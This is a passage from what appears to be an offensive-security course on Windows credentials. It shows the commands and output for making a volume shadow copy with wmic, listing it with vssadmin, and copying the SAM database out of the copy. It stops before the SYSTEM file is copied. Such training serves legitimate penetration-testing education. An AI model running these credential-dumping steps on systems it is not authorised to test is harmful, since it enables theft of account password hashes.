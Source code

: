 Specifically, we’ll launch wmic,[11](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_501-11) specify the shadowcopy class, create a new shadow volume and specify the source drive with "Volume='C:\\'". This will create a snapshot of the C drive.

```
C:\> wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{13FB63F9-F631-408A-B876-9032A9609C22}";
};
```

> Listing 4 - Creating a shadow volume

To verify this, we'll run vssadmin and list the existing shadow volumes with list shadows:

```
C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {8e3a3a18-93a6-4b18-bc54-7639a9baf7b2}
   Contained 1 shadow copies at creation time: 11/14/2019 6:53:26 AM
      Shadow Copy ID: {13fb63f9-f631-408a-b876-9032a9609c22}
         Original Volume: (C:)\\?\Volume{a74776de-f90e-4e66-bbeb-1e507d7fa0d4}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Client.corp1.com
         Service Machine: Client.corp1.com
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

> Listing 5 - Listing shadow volumes

Now that we've confirmed the creation of the shadow volume, we can copy the SAM database from it using the source path highlighted in the output of Listing 5:

```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
        1 file(s) copied.
```

> Listing 6 - Shadow copying the SAM database

Note that the above command must be run from a standard cmd.exe prompt, not from a PowerShell prompt.

Although we have copied the SAM database, it is partially encrypted by either RC4 (Windows 10 prior to Anniversary edition also called 1607 or RS1) or AES[12](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_501-12) (Anniversary edition and newer). The encryption keys are stored in the _SYSTEM_ file, which is in the same folder as the SAM database. However, it is also locked by the _SYSTEM_ account. We can reuse our shadow volume copy to copy this file as well:

